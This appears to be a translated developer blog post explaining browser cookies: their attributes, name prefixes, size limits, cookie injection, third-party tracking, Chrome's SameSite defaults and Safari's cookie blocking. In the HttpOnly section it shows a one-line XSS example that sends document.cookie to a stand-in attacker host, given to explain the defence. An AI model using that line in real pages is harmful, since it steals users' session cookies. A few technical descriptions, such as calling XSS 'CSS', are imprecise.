


<div style="opacity: 0.5; padding-right: 15px; text-align:right">
    <sup>Image by: <a href="https://www.freepik.com/premium-vector/hand-drawn-illustration-cookie_2795450.htm">https://www.freepik.com/</a></sup>
</div>

You've probably heard of "cookies" at least once, whether through last year's [Chrome SameSite](https://www.chromium.org/updates/same-site) policy announcement or while implementing a website's authentication features. This post looks at what cookies are, what kinds exist, and the browser policies tied to their characteristics.

## Cookies

A cookie is a small file that stores a website's information on the browser side. A DB stores data at the client's request, but a cookie works the opposite way — it's the server telling the client, **"Hold onto this file for me!"**

Cookies are also implemented on top of HTTP headers. The server can ask the client to store a date and time using a response header like the following.

```js
Set-Cookie: DATE=March/4/2020
```

It's requested in a `name=value` format, and the client stores that value. This lets the server determine things like whether it's the site's first visit.

Cookies can also be read or set from the browser.

```js
console.log(document.cookie)
--
[Result of testing on the Twitter site]
guest_id=v1%3A1...; _ga=GA1.2...
```

## Cookie Attributes

A cookie is specified in the format `<cookie-name>=<cookie-value>`, and `cookie-name` must consist of ASCII characters excluding control characters, spaces, and tabs, and can't include special symbols.

- **__Secure-**: A cookie name starting with `__Secure-` must have the `secure` flag set, and must be on an HTTPS page.
- **__Host-**: A cookie starting with `__Host-` must likewise have the secure flag set, must be on an HTTPS page, and must not specify a domain. (This means it can't be shared with subdomains.) Also, Path must be set to `/`.

```js
// Example
// The __Secure- prefix requires the Secure attribute.
// Since it has no Secure attribute, this cookie is ignored.
document.cookie = '__Secure-invalid-without-secure=1';
// A case where a cookie with the __Secure- prefix is applied
document.cookie = '__Secure-valid-with-secure=1; Secure';

// A cookie with the __Host- prefix is ignored if it's
// missing either the Path or Secure attribute.
document.cookie = '__Host-invalid-without-secure-or-path=1';
document.cookie = '__Host-invalid-without-path=1; Secure';

// A case where a cookie with the __Host- prefix is applied
document.cookie = '__Host-valid-with-secure-and-path=1; Secure; Path=/';
```

Below are several optional cookie attributes.

**Expires=\<date>**

The maximum lifetime of the cookie. If not specified, it's treated as a **session cookie** and is destroyed when the client closes. It's treated as a value relative to the client, not the server.

**Max-Age=\<number>**

Expresses the time until the cookie expires, in seconds. If 0 or a negative number is specified, the cookie expires immediately; IE6, 7, and 8 don't support this header. If both `Expires` and `Max-Age` are specified, `Max-Age` takes priority.

**Domain=\<domain-value>**

Domain defines the scope of the cookie and indicates which site created it. If not specified, it's applied based on the current page URL.
For example, a cookie set with `Domain=so-so.dev` can't be used on any site other than so-so.dev.

**Path=\<path-value>**

Indicates the URL path the requested resource must be under before the cookie is sent. For example, if `path=/soso` is specified, the cookie can be sent for paths like `/soso`, `/soso/jbee`, etc.

**Secure**

Cookies with this option set are only sent when the server uses SSL, over the HTTPS protocol.

**HttpOnly**

An option set to protect the user's cookies.

For example, a hacker could intercept a user's cookies with code like the following.

```js
location.href = 'https://😈.com?cookies=' + document.cookie
```

If a post containing this code is put up on a message board or in an email and a user clicks it, all of that user's cookies get sent to the 😈 site.

This is an option that prevents cookies from being accessed via document.cookie, in order to defend against this kind of CSS (Cross-Site Scripting) attack.

## Things to Watch Out For

Cookies are convenient, but they come with a few constraints, so you need to use them carefully.

### Persistence

First, there's the persistence problem. Cookies aren't guaranteed to be reliably stored under all circumstances. Depending on incognito mode or the browser's security settings, the server's request to keep a cookie once the session ends may be ignored. So cookies are best suited for storing **information that's fine to lose, or data that can be restored from server-side information**.

### Capacity

The maximum size of a cookie is fixed at 4KB. You can't fit much data into a cookie, and since it's always attached to every request, this adds to the amount of data transferred, which affects both request and response speed.

### Security

Last is the security problem. Setting the `secure` attribute means the cookie is only sent over encrypted HTTPS communication, but over plain HTTP, the cookie is sent as plaintext. So you shouldn't store things like passwords in it, and even when it's encrypted, since the user can freely access it, there's still a risk of tampering.

### Cookie Injection

Cookie injection is a method that exploits the cookie spec in reverse to bypass an HTTPS connection. It involves overwriting a cookie of a domain hidden behind HTTPS (e.g. *example.com*) from a different subdomain over plain HTTP (e.g. *subdomain.example.com*), or invalidating the cookie of the domain originally designated as HTTPS by setting a more specific cookie (e.g. *example.com/someapp*).

In March 2017, Chrome and Firefox announced [countermeasures](https://www.chromestatus.com/feature/4506322921848832) against cookie injection.

It's no longer possible to reconfigure cookies from a subdomain, and even within the same domain, a cookie with `secure` attached can't be overwritten over HTTP.

## First Party, Third Party

A First Party cookie is one where the service the browser accesses writes a cookie that's only valid within that service. A Third Party cookie, on the other hand, is a cookie inserted so it can be read by an external service — for purposes like advertising — enabling behavior tracking across sites.

A Third Party cookie belongs to a site (ad-tech.com) different from the site you accessed (origin.com).



You can request it by including a tag like the following on origin.com.

```html
<a href="ad.doubleclick.net/some-other-parameters-specific-to-this-ad" target="_blank" rel="noopener">
  
</a>
```

When the page loads, the ad markup also loads, a request is sent to *[ad.doubleclick.net/the-extension-to-the-creative](http://ad.doubleclick.net/the-extension-to-the-creative)*, and a cookie is delivered to the user.

Third Party cookies aren't free from security concerns. For example, if a user logs into a banking site to make a credit card payment and then, without logging out, navigates to a malicious site, a CSRF attack can occur. Because the user is still "authenticated" on the banking site, the malicious site could trigger actions like a money transfer.

For one more example, suppose someone uses an image from so-so.dev on another site. If the user has previously received a cookie from so-so.dev, then when that other site requests the so-so.dev image, that cookie gets sent along with the request. The other site doesn't use so-so.dev's cookie itself, but since it's making a request to so-so.dev, that cookie ends up being used from another site.

If someone is logged in on evil.com and it's using an image from so-so.dev, it could also send a request directly to so-so.dev.

## Chrome - SameSite

To protect users from these security risks, Google announced a new cookie policy called SameSite. In this case, web developers need to manage cookies using the SameSite attribute component in the `Set-Cookie` header.

The values you can pass for the SameSite attribute are Strict, Lax, and None.

|Value|Description|
|------|---|
|Strict|A cookie with this setting can only be accessed when visiting the domain it was originally set on. In other words, Strict blocks the cookie from being used across sites. This option is best suited for high-security applications like banking.|
|Lax|Cookies with this setting are sent only on same-site requests or top-level navigation with non-idempotent HTTP requests, like HTTP GET . So this option is used when you want third parties to be able to use the cookie, with the added security benefit of not falling victim to CSRF attacks.|
|None|Means the cookie can still be used in a Third Party context, as before.|

When set to `SameSite=Lax`, the cookie is only allowed for navigation between the same top-level domain (e.g. so-so.dev → statis.so-so.dev).

```html
<p>Example</p>

<p>Read the <a href="https://other.dev/cat.html">article</a>.</p>
```

In the example above, the cookie is set like this.

```
Set-Cookie: test=1; SameSite=Lax
```

If the user is on so-so.dev, the cookie isn't sent, but if they navigate to `[https://other.dev/cat.html](https://other.dev/cat.html)`, the cookie is sent. The `Lax` option is suitable for cookies that affect site content.

Starting with version 80, Chrome changed the default to `SameSite=Lax`. If you want to handle a cookie with the `SameSite=None` option, you need to add the Secure option as well.

```
Set-cookie: 3pcookie=value; SameSite=None; Secure
```

## Webkit - Full Third-Party Cookie Blocking

There was a significant change to Intelligent Tracking Prevention (ITP) in the Safari 13.1 update. According to Apple's John Wilander, a WebKit engineer, **Third Party cookies are now blocked** in Safari. (This is similar to Google's SameSite policy, but while Google is rolling it out gradually through 2020, Safari shipped it at 100% in 13.1.)

<a href="https://twitter.com/johnwilander/status/1242513313507860480?ref_src=twsrc^tfw|twcamp^tweetembed|twterm^1242513313507860480&ref_url=https%3A%2F%2Fwww.theverge.com%2F2020%2F3%2F24%2F21192830%2Fapple-safari-intelligent-tracking-privacy-full-third-party-cookie-blocking">
  
</a>

## Ref

- [https://webkit.org/blog/10218/full-third-party-cookie-blocking-and-more/](https://webkit.org/blog/10218/full-third-party-cookie-blocking-and-more/)
- [http://www.hanbit.co.kr/store/books/look.php?p_code=B7009240426](http://www.hanbit.co.kr/store/books/look.php?p_code=B7009240426)
- [https://clearcode.cc/blog/difference-between-first-party-third-party-cookies/#first-vs-third](https://clearcode.cc/blog/difference-between-first-party-third-party-cookies/#first-vs-third)
- [https://docs.adobe.com/content/help/ko-KR/target/using/implement-target/before-implement/privacy/google-chrome-samesite-cookie-policies.translate.html](https://docs.adobe.com/content/help/ko-KR/target/using/implement-target/before-implement/privacy/google-chrome-samesite-cookie-policies.translate.html)
- [https://ifuwanna.tistory.com/223](https://ifuwanna.tistory.com/223)
- [https://www.yceffort.kr/2020/01/chrome-cookie-same-site-secure/](https://www.yceffort.kr/2020/01/chrome-cookie-same-site-secure/)
- [https://googlechrome.github.io/samples/cookie-prefixes/](https://googlechrome.github.io/samples/cookie-prefixes/)
- [https://developers-kr.googleblog.com/2020/01/developers-get-ready-for-new.html](https://developers-kr.googleblog.com/2020/01/developers-get-ready-for-new.html)
- [https://medium.com/cross-site-request-forgery-csrf/double-submit-cookie-pattern-65bb71d80d9f](https://medium.com/cross-site-request-forgery-csrf/double-submit-cookie-pattern-65bb71d80d9f)
